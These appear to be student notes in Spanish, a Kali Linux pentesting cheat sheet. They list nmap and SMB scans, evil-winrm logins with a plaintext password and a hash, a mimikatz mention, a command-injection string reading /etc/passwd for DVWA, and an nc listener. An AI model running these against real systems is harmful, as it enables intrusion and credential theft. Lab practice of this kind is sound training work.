 
# 🛠 Notas TEC – Comandos en Kali Linux para pruebas de red y pentesting

---

## 📡 Información de servidores

```bash
nslookup biblioteca.tec.mx
```

---

## 🌐 Ver nuestra IP

```bash
hostname -I
```

---

## 🔍 Escaneo de red

### Hacer barridos de red (ping sweep)
```bash
nmap -sn 192.168.64.4
```

### Ver todos los puertos abiertos (superficie de ataque)
```bash
nmap -O 192.168.64.4
```

### Ver todos los puertos que se pueden acceder
```bash
nmap 192.168.64.4
```

---

## 🧪 Scanner SMB

```bash
smbmap -H 192.168.64.4
```

---

## 🔎 Buscar contraseñas hardcodeadas

En el buscador de carpetas (Windows o Linux con entorno gráfico), buscar:

```
content:password
```

---

## 🧠 Conexiones remotas (Evil-WinRM)

```bash
evil-winrm -i 192.168.117.133 -u "Manuel Barrera" -p "MyP4$$-01#"
evil-winrm -i 192.168.117.133 -u sysadmin -H "HASHDEUSUARIO"
```

---

## 🧾 Ver cuenta con la que estoy conectado

```bash
whoami
whoami /priv
```

---

## 🧰 Herramientas útiles

### Instalar herramienta `net` (comando samba)

```bash
sudo apt install samba-common-bin
```

---

## 🔐 mimikatz.exe

> Puedes ponerte en el medio entre servidor y cliente en tickets de Kerberos.

---

## ⚙️ Utilidades y pruebas

### Página vulnerable para pruebas
- `DVWA`

### Ping y leer `/etc/passwd`

```bash
ping -c 192.168.117.134 && cat /etc/passwd
```

### Escuchar conexiones entrantes en un puerto

```bash
nc -lvnp 1234
```

---

